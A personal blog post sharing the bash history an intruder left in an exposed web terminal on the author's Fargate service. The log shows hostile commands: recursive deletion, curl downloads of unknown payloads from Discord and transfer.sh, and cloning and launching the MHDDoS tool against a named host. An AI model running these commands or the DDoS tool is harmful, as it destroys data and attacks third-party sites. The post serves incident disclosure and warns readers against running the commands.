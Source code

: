 ```yaml
---
layout: post
title: "Bash history of a hack attempt in one of my Fargate services"
date: 2022-01-12 12:00:00 -0000
---
```


## Bash history of a hack attempt in one of my Fargate services

Yesterday I checked the bash history for an open [web terminal](http://github.com/yudai/gotty)
I left behind in one of the Fargate services I set up, and noticed a hack attempt.
Below you'll find the set of commands the attacker used. Typos and the constant
use of `clear` makes me think this isn't a pro, but it's still interesting to
see what he/she attempted.
 
```
   31  ls
   32  rm -rf *
   33  ls
   34  sudo
   35  ls
   36  sudo apt update
   37  clear
   38  ls
   39  screen -ls
   40  clear
   41  cd
   42  tmux
   43  clear
   44  ls
   45  cd /
   46  ls
   47  cd
   48  clear
   49  ulimit -n 999999
   50  clear
   51  wget
   52  curl
   53  docker
   54  udocker
   55  pip3
   56  curl https://cdn.discordapp.com/attachments/853535040250970113/878590395611775016/yt.zip --output yt.zip
   57  screen -ls
   58  ls
   59  clear
   60  unzip yt.zip
   61  pk
   62  apk update
   63  apt
   64  apt update
   65  clear
   66  tar
   67  rm -rf *
   68  clear
   69  ls
   70  clear
   71  curl https://transfer.sh/rvpSpC/root.sh --output root.sh
   72  ls
   73  curl https://transfer.sh/A2mYNo/root.tar.xz --output root.tar.xz
   74  mkdir dist
   75  ls
   76  cd dist
   77  curl https://transfer.sh/1e30zd/proot --output proot
   78  curl https://transfer.sh/9btpPw/proot.md5sum --output proot.md5sum
   79  curl https://transfer.sh/6wqMgI/proot.sha256sum --output proot.sha256sum
   80  clear
   81  cd
   82  ls
   83  tar -xvf root.tar.xz
   84  clear
   85  ./dist/proot -S . /bin/bash
   86  chmod +x ./dist/proot
   87  ./dist
   88  ./dist/proot -S . /bin/bash
   89  ls
   90  rm -rf root.sh
   91  m -rf root.tar.xz
   92  rm -rf root.tar.xz
   93  ls
   94  cd
   95  ls
   96  clear
   97  cd /
   98  ls
   99  cd
  100  ls
  101  cd dist
  102  ls
  103  rm -rf *
  104  cd /
  105  rm -rf dist
  106  clear
  107  ls
  108  cd
  109  pip3 install udocker
  110  udocker install
  111  pip3 remove udocker
  112  pip3 uninstall udocker
  113  clear
  114  curl https://github.com/indigo-dc/udocker/releases/download/v1.3.1/udocker-1.3.1.tar.gz --output udocker-1.3.1.tar.gz
  115  ls
  116  cd
  117  ls
  118  tar zxvf udocker-1.3.1.tar.gz
  119  ls
  120  clear
  121  curl https://transfer.sh/ce6sc1/udocker.tar.gz --output udocker.tar.gz
  122  tar -xvf udocker.tar.gz
  123  ls
  124  rm -rf udocker*
  125  ls
  126  clear
  127  ls
  128  git
  129  git clone https://github.com/MHProDev/MHDDoS
  130  cd MHDDoS
  131  ls
  132  pip3 install -r requirements.txt
  133  cdlls
  134  cd
  135  ls
  136  cd MHDDoS
  137  ls
  138  cd
  139  ls
  140  cd MHDDoS
  141  python3 start.py get https://host.applelife.ru/ 1 1000 http.txt 1000 9999999999999999999999999999
  142  history
```

I don't recommend visiting these URLs, or trying these commands on your system.
However, <https://github.com/MHProDev/MHDDoS> is safe. It's a DDOS Attack script
implemented in Python. The attacker was able to install it, and used it to DDOS
`https://host.applelife.ru/`.

After noticing it, I removed the configuration that enables the web terminal and
restarted the service to get back to a healthy/safe state.

FWIW, I know that leaving an open web terminal isn't safe. This is not the first
time I got an intruder there, but the previous one just poked around and didn't
attempt anything nefarious. Anyway, YOLO - these web terminals are pretty
convenient. And since there's very little an attacker can do in the running
container, I feel the risk is manageable.
